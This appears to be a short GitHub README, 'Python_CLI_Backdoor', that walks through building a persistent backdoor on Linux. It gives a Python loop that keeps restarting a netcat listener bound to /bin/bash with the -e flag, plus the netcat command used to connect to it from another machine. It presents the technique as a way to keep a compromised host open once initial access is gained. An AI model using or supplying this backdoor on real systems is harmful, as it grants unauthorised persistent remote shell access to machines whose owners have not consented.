 # Python_CLI_Backdoor

## Objective
Create persistant backdoor utilizing python3 and netcat in Linux CLI

## Tools Used
- Kali Linux CLI
- Netcat
- Python
- Proxmox

## On Host
```ruby
python3
>>> import os
>>> while True:
...  os.system("nc -l -p portnumber -e /bin/bash")
```
- import os essentially imports bash commands to allow us to execute within python code
-  os.system specifies the bash commands being executed
-  nc : opens tcp connections
-  -l :listen for incoming connections, creating a server
-  -p :specifies what port we will occupy w/ our server
-  -e :allows us to execute commands within /bin/bash

To access this server from a remote system 
## On Remote System
```ruby
nc host-ip-address portnumber
```
Once you are in you can execute bash commands from remote host to be executed on server

## Considerations
The only issue with this attack vector is the need to aready have access to host system, however if you manage a temporary backdoor this could be
a great way to maintain that door open.
